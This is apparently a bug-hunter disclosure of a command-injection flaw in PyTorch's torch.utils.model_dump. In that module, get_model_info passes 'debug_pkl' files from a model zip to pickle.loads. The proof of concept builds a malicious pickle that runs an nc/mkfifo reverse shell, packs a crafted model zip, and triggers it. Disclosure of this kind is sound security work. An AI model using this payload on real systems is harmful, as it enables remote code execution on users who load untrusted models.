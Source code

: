 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in torch.utils.model_dump in pytorch"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in torch.utils.model_dump

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 2.3.1

## Description

In pytorch module [`torch.utils.model_dump`](https://github.com/pytorch/pytorch/blob/main/torch/utils/model_dump/__init__.py), the method [`get_model_info`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L189) is responsible for extracting a model data in zip file. However, during the extraction, if a pickle file endswith `debug_pkl`, this file will be parsed by [`pickle.loads` function](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264). In this case, if a [malicous pickle file is parsed](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle), we can achive command injection in victim's mechine.

The vulnerable function: [`get_model_info`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264)

```
def get_model_info(
        path_or_file,
        title=None,
        extra_file_size_limit=DEFAULT_EXTRA_FILE_SIZE_LIMIT):
    """Get JSON-friendly information about a model.

    The result is suitable for being saved as model_info.json,
    or passed to burn_in_info.
    """
    ...
    with zipfile.ZipFile(path_or_file) as zf:
        
        code_files = {}
        for zi in zf.infolist():
            if not zi.filename.endswith(".py"):
                continue
            with zf.open(zi) as handle:
                raw_code = handle.read()
            with zf.open(zi.filename + ".debug_pkl") as handle:
                raw_debug = handle.read()

            # Parse debug info and add begin/end markers if not present
            # to ensure that we cover the entire source code.
            # vulnerable sink!!!!!!!!!!
            debug_info_t = pickle.loads(raw_debug)
            
    ...
    return {"model": dict(
        title=title,
        file_size=file_size,
        version=version,
        zip_files=zip_files,
        interned_strings=list(interned_strings),
        code_files=code_files,
        model_data=model_data,
        constants=constants,
        extra_files_jsons=extra_files_jsons,
        extra_pickles=extra_pickles,
    )}
```

## Proof of Concept

Firstly, let's create a malicous model, and compress it with zip format. In [`get_model_info#L230`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L230), we know the model directory must contain `version` file. In [`get_model_info#L238`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L238), we know the model directory must contain `data.pkl` and `constants.pkl` files. In line [`get_model_info#L255`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L255) and line [`get_model_info#L259`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L259), we know that the model must contain a python file and a `debug_pkl` file. So, let's create those files:

### `version`

```
1.1.0
```

### `data.pkl` and `constants.pkl`

Use following snippets to create `data.pkl` file:

```
import pickle
student_names = [1]
with open('data.pkl', 'wb') as f:
    pickle.dump(student_names, f)
```

Use following snippets to create `constants.pkl` file:

```
import pickle
student_names = ["df"]
with open('constants.pkl', 'wb') as f:
    pickle.dump(student_names, f)
```

### `payload.py`

Just create a empty file named `payload.py`

### `payload.py.debug_pkl`

Use following snippets to create a malicous pickle payload:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('payload.py.debug_pkl', 'wb') as f:
    pickle.dump(RCE(), f)
```

### `malicious model zip file`

Copy all the files to a folder and create a model zipfile:

```
> ls -la torch-model-dump
-rw-r--r-- 1 kali kali   20 Jun 24 17:45 constants.pkl
-rw-r--r-- 1 kali kali   17 Jun 24 17:45 data.pkl
-rw-r--r-- 1 kali kali    0 Jun 24 17:45 payload.py
-rw-r--r-- 1 kali kali  121 Jun 24 17:45 payload.py.debug_pkl
-rw-r--r-- 1 kali kali    6 Jun 24 17:39 version

> zip -r torch-model-dump.zip torch-model-dump
```

The [`torch-model-dump.zip`](https://raw.githubusercontent.com/sunriseXu/onnx/main/torch-model-dump.zip) can be download from github.

## Start attack

Install latest pytorch:

```
pip install torch
```

Use following command to trigger the unsafe `pickle.loads` command injection:

```
python -m torch.utils.model_dump --style=json ./torch-model-dump.zip
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/1jKXmbFS4EcpwfYn1UXeKPFNV-dB3VtIs?usp=sharing](https://colab.research.google.com/drive/1jKXmbFS4EcpwfYn1UXeKPFNV-dB3VtIs?usp=sharing)

![image](/assets/images/bughunter/torch-pickle.png)

## Impact

This vulnerability can have severe consequences. If victims parse a malicious model file using `torch.utils.model_dump`, command injection can be achieved.


## Occurrences

[get_model_info#L264](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264)

